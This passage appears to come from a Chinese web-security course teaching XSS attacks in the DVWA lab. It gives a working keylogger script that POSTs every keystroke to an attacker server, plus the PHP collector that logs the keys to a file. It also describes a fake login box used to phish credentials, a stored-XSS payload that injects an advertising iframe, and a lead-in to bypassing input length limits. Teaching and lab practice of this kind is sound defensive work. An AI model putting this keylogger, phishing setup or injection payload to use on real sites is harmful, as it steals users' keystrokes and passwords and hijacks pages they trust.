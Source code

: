 这段代码可以去调用远程地址中的JavaScript文件，使得keylogger.js中的代码被执行。这里的keylogger.js的内容为：

```javascript
document.onkeypress = function(evt) {
    evt = evt || window.event;
    key = String.fromCharCode(evt.charCode);
    if(key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST","http://192.168.3.193/keylogger.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}
```

它创建了一个监听按键的事件，这个事件可以记录用户在当前页面按下的每一个键，并将接收到的按键通过POST方式上传到攻击者用来存储按键记录的服务器上。其中keylogger.php的代码为：

```php
<?php
  $key=$_POST['key'];
  $logfile="keylog.txt";
  $fp = fopen($logfile,"a");
  fwrite($fp,$key);
  fclose($fp);
?>
```

它可以将接收到的key记录到keylog.txt文件中，**这样就能实现按键记录的功能了**。

我们胡乱的在被攻击的页面按下一些键，发现我们用来记录按键的服务器已经获取到了按键内容，并将它们存储在keylog.txt中。

![](https://static001.geekbang.org/resource/image/07/a0/07b42f2ce349e258f7390b6861760fa0.png?wh=1145x259)

我们还可以将这个按键记录做一下加工，使得用户可以输入一些敏感信息例如账号、密码等信息。我们可以用JavaScript创建出一个伪造的登陆框，这样用户很可能会上当，在这里输入自己的用户名和密码，我们可以利用之前的按键记录获取到这些信息。**这种行为就是钓鱼攻击**，因为它本质上和钓鱼非常类似，在钓鱼中我们就会利用鱼饵，将锋利的鱼钩伪装成美味的食物，这样就能骗得鱼儿上钩。

相信到这里你已经明白了如何用XSS攻击来实现按键记录以及钓鱼。接下来，让我们学习用XSS实现广告植入的方式吧。

### 广告植入

想要做广告植入，那我们需要用存储型XSS注入，这样就可以使得所有访问受攻击页面的用户都会看到广告。

这里我们选择用DVWA的存储型XSS作为示例，如下图，这里需要输入一个姓名和消息。

![图片](https://static001.geekbang.org/resource/image/5c/78/5cfbd6580574dc0b4b41acb9471a8278.png?wh=904x289)

经过测试后，我们发现这个Message框内会受到XSS攻击，于是直接可以将负载改为：

```javascript
<script>document.writeln("<iframe scrolling='no' frameborder='0' marginheight='0' marginwidth='0' width='1000' height='2000' allowTransparency src=https://time.geekbang.org/course/detail/100055001-283034></iframe>");</script>
```

这段恶意负载可以在当前页面以行的方式输出src对应的内容，这样我们把广告的地址设置为src即可。可以看到广告已经弹出，这就是用XSS实现广告植入的方法。

在测试的过程中，你可能会发现我们无法输入完整的负载，这是因为DVWA对这个输入框有长度限制，**我们有两种方法可以绕过这一输入限制**。
